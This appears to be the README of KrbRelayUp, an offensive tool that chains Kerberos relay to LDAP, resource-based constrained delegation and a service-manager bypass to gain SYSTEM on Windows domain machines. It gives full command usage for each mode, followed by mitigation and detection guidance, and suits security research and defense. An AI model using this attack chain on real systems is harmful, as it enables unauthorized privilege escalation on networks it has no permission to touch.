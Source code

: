 
# KrbRelayUp
Simple wrapper around some of the features of [Rubeus](https://github.com/GhostPack/Rubeus/) and [KrbRelay](https://github.com/cube0x0/KrbRelay) (and a few other honorable mentions in the acknowledgements section) in order to streamline the abuse of the following attack primitive:

0. (Optional) New machine account creation ([New-MachineAccount](https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1))
1. Local machine account auth coercion ([KrbRelay](https://github.com/cube0x0/KrbRelay))
2. Kerberos relay to LDAP ([KrbRelay](https://github.com/cube0x0/KrbRelay))
3. Add RBCD privs and obtain privileged ST to local machine ([Rubeus](https://github.com/GhostPack/Rubeus/))
4. Using said ST to authenticate to local Service Manager and create a new service as NT/SYSTEM. ([SCMUACBypass](https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82))

**This is essentially a universal no-fix local privilege escalation in windows domain environments where LDAP signing is not enforced (the default settings).**

**UPDATE:** [Here](https://gist.github.com/tothi/bf6c59d6de5d0c9710f23dae5750c4b9) is an excellent writeup by [@an0n_r0](https://twitter.com/an0n_r0) on how to perform this attack manually (using the **original tools** for this attack path: [PowerMad](https://github.com/Kevin-Robertson/Powermad)/[SharpMad](https://github.com/Kevin-Robertson/Sharpmad), [KrbRelay](https://github.com/cube0x0/KrbRelay), [Rubeus](https://github.com/GhostPack/Rubeus) and [SCMUACBypass](https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82))

### Usage
```
KrbRelayUp - Relaying you to SYSTEM

RELAY:
Usage: KrbRelayUp.exe relay -d FQDN -cn CUMPUTERNAME [-c] [-cp PASSWORD | -ch NTHASH]

    -d  (--Domain)                   FQDN of domain.
    -c  (--CreateNewComputerAccount)    Create new computer account for RBCD. Will use the current authenticated user.
    -cn (--ComputerName)             Name of attacker owned computer account for RBCD. (deafult=KRBRELAYUP$ [if -c is enabled])
    -cp (--ComputerPassword)         Password of computer account for RBCD. (deafult=RANDOM [if -c is enabled])
    -ch (--ComputerPasswordHash)     Password NT hash of computer account for RBCD. (Optional)
    -p  (--Port)                     Port for Com Server (default=12345)

SPAWN:
Usage: KrbRelayUp.exe spawn -d FQDN -cn COMPUTERNAME [-cp PASSWORD | -ch NTHASH] <-i USERTOIMPERSONATE>

    -d  (--Domain)                   FQDN of domain.
    -cn (--ComputerName)             Name of attacker owned computer account for RBCD.
    -cp (--ComputerPassword)         Password of computer account for RBCD.
    -ch (--ComputerPasswordHash)     Password NT hash of computer account for RBCD. (Optional)
    -i  (--Impersonate)              User to impersonate. should be a local admininstrator in the target computer. (default=Administrator)
    -s  (--ServiceName)              Name of the service to be created. (default=KrbSCM)
    -sc (--ServiceCommand)           Service command [binPath]. (default = spawn cmd.exe as SYSTEM)

KRBSCM:
Usage: KrbRelayUp.exe krbscm <-s SERVICENAME> <-sc SERVICECOMMANDLINE>

    -s  (--ServiceName)              Name of the service to be created. (default=KrbSCM)
    -sc (--ServiceCommand)           Service command [binPath]. (default = spawn cmd.exe as SYSTEM)
```

### Examples

![example](Images/example.png)

### TODO
- [ ] Code refactoring and cleanup!!!
- [ ] Add ShadowCred attack as a RELAY method
- [ ] Add TGTDELEG attack  in SPAWN method to be used in Network Service->SYSTEM scenarios (potatoes alternative)
- [ ] Fix the issue I'm having trying to combine the RELAY and SPAWN methods into one run so it can be used as one complete command. Probably has something to do with the fact that both RELAY and SPAWN functionalities rely on hooks during the initialization of the COM Server (Once RELAY initializes its COM Server the SPAWN can't re-initialize it to place its hooks as well)

### Mitigation & Detection
* Enforce LDAP Signing and LDAP Channel Binding to mitigate the relay of the machine account KRB auth to LDAP. This can be configured via the "Domain Controller: LDAP server signing requirements" GPO. (Thank you [Will Dormann](https://twitter.com/wdormann) for your [tweet](https://twitter.com/wdormann/status/1518999885550440451) on this matter)
* Make the attack requirements harder to obtain by setting the [MS-DS-Machine-Account-Quota attribute](https://docs.microsoft.com/en-us/windows/win32/adschema/a-ms-ds-machineaccountquota) in AD to **0**, thus removing the ability of any user to add a new machine account to the domain. This is a dangerous default setting in AD - make sure you change it.
* Setting the flag "Account is sensitive and cannot be delegated" on all admin accounts (or put them in protected users) would make it so there is no account with the privileges required that can be delegated in order to complete the attack path. (Thanks to [Christoph Falta](https://twitter.com/cfalta) for this [tweet](https://twitter.com/cfalta/status/1519309206230339585))
* Resources for possible monitoring and detection rules:
    1. https://github.com/tsale/Sigma_rules/blob/main/windows_exploitation/KrbRelayUp.yml ([@Kostastsale](https://twitter.com/Kostastsale))
    2. https://twitter.com/SBousseaden/status/1518976397364056071 ([@SBousseaden](https://twitter.com/SBousseaden)). Mainly the rule about authentication to Service Manager via Kerberos from 127.0.0.1, Great Work!.
    3. https://www.linkedin.com/posts/john-dwyer-xforce_threathunting-threatdetection-blueteam-activity-6924739962131140608-py45/ ([John Dwyer](https://www.linkedin.com/in/john-dwyer-xforce/) [@TactiKoolSec](https://twitter.com/TactiKoolSec))
    4. https://twitter.com/cyb3rops/status/1519241598311321601 ([@cyb3rops](https://twitter.com/cyb3rops))


### Acknowledgements
* [James Forshaw](https://twitter.com/tiraniddo) for his research on [Kerberos relaying](https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html) and for figuring out how to [use Kerberos Service Tickets for LOCAL authentication to Service Manager](https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82) which was the missing piece of the puzzle in order to make this attack primitive **local only** (before that, we had to export the ST to a remote machine in order to use it and gain privileged access to our target machine). Also for his [New-MachineAccount](https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1) functionality which was used in this project.
* [Cube0x0](https://twitter.com/cube0x0) This project wouldn't exist without his amazing work on [KrbRelay](https://github.com/cube0x0/KrbRelay) - a lot of code was taken from there and it made me gain a deeper understanding on how Kerberos Relaying works (I really recommend going through the code for anyone who wish to understand the concept better).
* [Will Schroeder](https://twitter.com/harmj0y) and everyone who contributed to [Rubeus](https://github.com/GhostPack/Rubeus/) which we all know and love. Basically all the RBCD-S4U functionality was taken from there.
* [Orange-Cyberdefense](https://github.com/Orange-Cyberdefense) for their work on [GOAD](https://github.com/Orange-Cyberdefense/GOAD), the Active Directory research lab I am using which you can see in the demo video and images.
